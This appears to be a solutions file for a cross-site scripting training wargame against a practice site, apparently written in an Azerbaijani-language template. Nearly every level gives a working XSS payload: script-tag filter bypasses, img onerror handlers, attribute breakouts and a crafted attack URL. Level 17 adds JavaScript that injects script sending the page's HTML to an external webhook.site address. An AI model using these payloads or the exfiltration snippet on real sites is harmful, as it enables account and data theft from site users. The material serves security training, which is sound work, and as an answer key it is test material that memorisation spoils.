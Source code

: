 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: <script>success("HackedbyDedSec")</script>
```

# 2. No Script Allowed (3 points)

```
TODO: <scriptscript>success("HackedbyDedSec")</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <scripscriptt>success("HackedbyDedSec")</scripscriptt>
```

# 4. An Open-and-Shut Case (3 points)

```
TODO: <SCRIPT>success("HackedbyDedSec")</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
TODO: <scRIPT>success("HackedbyDedSec")</scRIPT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src=x onerror=success("HackedByDedSec")>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <img src=x onload=onerror = success("HackedByDedSec")>
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<img src=x onerror=success("HackedByDedSec")>>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: " onload=success("HackedByDedSec") "
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: "" onload=success("HackedByDedSec") ""
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: ' onload=success("HackedByDedSec") ' 
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL: http://caloogle.xyz:4140/search?q=ss&lang=en " onload=success("HackedByDedSec") "

```
TODO: http://caloogle.xyz:4140/search?q=ss&lang=en " onload=success("HackedByDedSec") "
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//script><script>success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: 
function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://localhost:4000/17', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
